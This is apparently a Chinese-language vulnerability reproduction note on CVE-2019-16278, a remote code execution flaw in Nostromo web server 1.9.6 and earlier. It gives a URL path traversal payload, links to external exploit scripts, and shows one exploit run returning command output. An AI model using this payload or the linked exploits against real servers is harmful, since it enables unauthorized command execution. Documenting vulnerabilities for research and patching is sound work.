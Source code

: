 # [漏洞复现]：CVE-2019-16278 Nostromo web server RCE
### 漏洞描述

Nostromo web server(nhttpd)是一个开源的web服务器，在Unix系统非常流行。


漏洞原因是web服务在对URL进行检查是在URL被解码前，攻击者可以将`/`转换为`%2f`就可绕过检查，之前出现过类似漏洞CVE-2011-0751，POC如下：
```
http://www.example.org/..%2flogs/access_log
```

**利用前提**

Nostromo version <= 1.9.6

### 漏洞复现
**Python POC：**https://github.com/sudohyak/exploit/blob/master/CVE-2019-16278/exploit.py

```
mark@mark-Pc:~/nhttpd-exploits$ ./CVE-2019-16278.sh 127.0.0.1 80 id
uid=1000(mark) gid=1000(mark) groups=1000(mark),0(root)

```

EXP: https://git.sp0re.sh/sp0re/Nhttpd-exploits


**参考**

https://www.sudokaikan.com/2019/10/cve-2019-16278-unauthenticated-remote.html?utm_source=webcode.ca&utm_medium=web&utm_campaign=twitter
https://nosec.org/home/detail/3074.html